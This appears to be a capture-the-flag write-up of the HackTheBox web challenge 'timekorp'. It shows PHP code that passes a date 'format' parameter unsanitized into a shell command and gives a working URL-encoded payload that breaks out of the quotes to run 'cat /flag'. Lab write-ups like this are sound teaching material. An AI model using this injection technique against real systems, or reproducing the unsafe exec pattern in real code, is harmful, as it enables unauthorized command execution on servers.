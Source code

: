 # Day02 - timekorp

- **Platform**: HackTheBox  
- **Category**: Web  
- **Difficulty**: Easy  
- **Date**: 2025-05-02  
- **Tools Used**: Browser, Grep, PHP source analysis  

---

## Summary
A time display app accepted a `format` parameter that was passed directly into a system call without sanitization. By breaking out of the string in the `date` command, I was able to achieve command injection and read the flag.

---

## Enumeration
- Accessed the app at `http://94.237.51.163:49486/`.  
- Found `?format=` parameter modified the displayed time.  
- Reviewed provided source code (`index.php`, `router.php`, `TimeController.php`, `TimeModel.php`, `Dockerfile`).  
- Vulnerable code in `TimeModel.php`:
  ```php
  $this->command = "date '+" . $format . "' 2>&1";
  $time = exec($this->command);
  ```
- Input from `format` was injected directly into a shell command.

---

## Exploitation
- First tried:
  ```
  ?format=%25H%25M%25S;cat%20/flag
  ```
  This failed because everything stayed inside single quotes.  

- Working payload:
  ```
  ?format=%25H%25M%25S%27;%20cat%20/flag%20%23
  ```
  Which decodes to:
  ```
  date '+%H%M%S'; cat /flag #'
  ```

- This successfully broke out of the command, ran `cat /flag`, and returned the flag.

---

## Lessons Learned
- Even harmless-looking parameters (like date formats) can lead to command injection.  
- PHP `exec()` returns only the last line of output, which can make debugging payloads confusing.  
- Breaking out of quoted strings is a core exploitation technique.  
- Reviewing source code often reveals vulnerabilities much faster than blind testing.  
